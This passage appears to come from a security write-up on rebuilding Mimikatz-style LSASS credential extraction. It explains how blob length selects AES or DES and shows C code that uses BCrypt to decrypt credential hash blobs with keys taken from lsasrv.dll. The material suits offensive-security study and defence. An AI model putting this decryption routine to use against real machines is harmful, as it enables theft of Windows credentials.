![mim2](attachments/Pasted%20image%2020250903222257.png)

This code also clues us in on the fact that we should be making IV copies because of the changes BCrypt will make to the original, and if the blob size is divisible by 8, so without Adam Chester's article this is another way you could confirm this without needing to fully reverse lsasrv.dll.
```c
printf("Checking if AES or DES..\n");
if (blobLen  % 8 != 0) {
```

This if statement checks to see if the blob length is divisible by 8.

```c
if (blobLen  % 8 != 0) {
	printf("AES Selected.\n");

	bcryptResult = BCryptOpenAlgorithmProvider(&algAESHandle, BCRYPT_AES_ALGORITHM, 0, 0);
	if (!NT_SUCCESS(bcryptResult)) {
		printf("Cannot open alg provider\n");
	}
	printf("Alg handle made.\n");

	bcryptResult = BCryptSetProperty(algAESHandle, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CFB, sizeof(BCRYPT_CHAIN_MODE_CFB), 0);

	if (!NT_SUCCESS(bcryptResult)) {
		printf("Cannot set cahining mode CFB\n");
	}
	printf("Set properties\n");

	bcryptResult = BCryptGenerateSymmetricKey(algAESHandle, &hAESKey, NULL, 0, keys.AESKey, keys.AESKeyLen, 0);

	if (!NT_SUCCESS(bcryptResult)) {
		printf("Cannot create symmetric key based on found key\n");
	}
	printf("Symmetric Key generated\n");

	bcryptResult = BCryptDecrypt(hAESKey, (PUCHAR)blob, blobLen, NULL, ivCopyAES, sizeof(ivCopyAES), HASH, LenHASH, &resultLen, 0);
	printf("Decrypted Lsaunicode string buffer\n");

	if (!NT_SUCCESS(bcryptResult)) {
		printf("Cannot open decrypt hash\n");
	}
```